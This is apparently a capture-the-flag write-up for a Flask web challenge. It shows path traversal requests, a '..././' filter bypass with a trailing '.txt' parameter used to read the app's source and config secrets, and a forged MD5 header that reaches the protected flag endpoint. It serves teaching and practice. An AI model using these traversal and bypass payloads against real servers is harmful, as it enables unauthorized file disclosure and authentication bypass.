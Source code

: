 # web-protected-area

## Task

Web application had two api methods:

The first method could check that file is exists:
```
GET /check_perm/readable/?file=public.txt HTTP/1.1
Host: 66.172.33.148:8008

```

The second read file content:
```
GET /read_file/?file=public.txt HTTP/1.1
Host: 66.172.33.148:8008

```

The second method had filters like:
```
file = request.args.get("file").replace('../', '')
qs = request.query_string.decode('UTF-8')

    if qs.find('.txt') != (len(qs) - 4):
        return 'security'
```

## Solution

So, we could check files and directories with first method, and found next list of resources:

```
GET /check_perm/readable/?file=../../../app/application/files/private.txt HTTP/1.1

GET /check_perm/readable/?file=../../../app/config.py HTTP/1.1

GET /check_perm/readable/?file=../../../app/application/app.py HTTP/1.1

GET /check_perm/readable/?file=../../../app/application/__init__.py HTTP/1.1

GET /check_perm/readable/?file=../../../app/application/functions.py HTTP/1.1
```

Also, we could bypass filters of the second  method with next trick:
```
GET /read_file/?file=..././..././..././app/application/api.py&aaa=public.txt HTTP/1.1

<!-- Double ../ like ..././ and .txt extension in other last get param.
```

Now we could read internal files. The most important is:
`/app/application/api.py` with content:
```python

from flask import current_app as app
from flask import request, render_template, send_file
from .functions import *
from config import *
import os

@app.route('/check_perm/readable/', methods=['GET'])
def app_check_file() -> str:
    try:
        file = request.args.get("file")

        file_path = os.path.normpath('application/files/{}'.format(file))
        with open(file_path, 'r') as f:
            return str(f.readable())
    except:
        return '0'

@app.route('/read_file/', methods=['GET'])
def app_read_file() -> str:
    
    file = request.args.get("file").replace('../', '')
    qs = request.query_string.decode('UTF-8')

    if qs.find('.txt') != (len(qs) - 4):
        return 'security'
    
    try:
        return send_file('files/{}'.format(file))
    except Exception as e:
        return "500"

@app.route('/protected_area_0098', methods=['GET'])
@check_login
def app_protected_area() -> str:
    return Config.FLAG

@app.route('/', methods=['GET'])
def app_index() -> str:
    return render_template('index.html')

@app.errorhandler(404)
def not_found_error(error) -> str:
    return "Error 404"
```

And `/app/config.py` with content:
```python
import os

class Config:
    """Set Flask configuration vars from .env file."""

    # general config
    FLAG       = os.environ.get('FLAG')
    SECRET     = "s3cr3t"
    ADMIN_PASS = "b5ec168843f71c6f6c30808c78b9f55d"
    
```

After we saw check_login  wrapper open imported `/app/application/function.py` file:
```python

from flask import request, abort
from functools import wraps
import traceback, os, hashlib
from config import *

def check_login(f):
    """
    Wraps routing functions that require a user to be logged in
    """
    @wraps(f)
    def wrapper(*args, **kwds):
        try:
            ah = request.headers.get('ah')

            if ah == hashlib.md5((Config.ADMIN_PASS + Config.SECRET).encode("utf-8")).hexdigest():
                return f(*args, **kwds)
            else:
                return abort(403)

        except:
            return abort(403)
        
    return wrapper
```

After that simple create hash with data from `config.py` and send send request to `/protected_area_0098`.

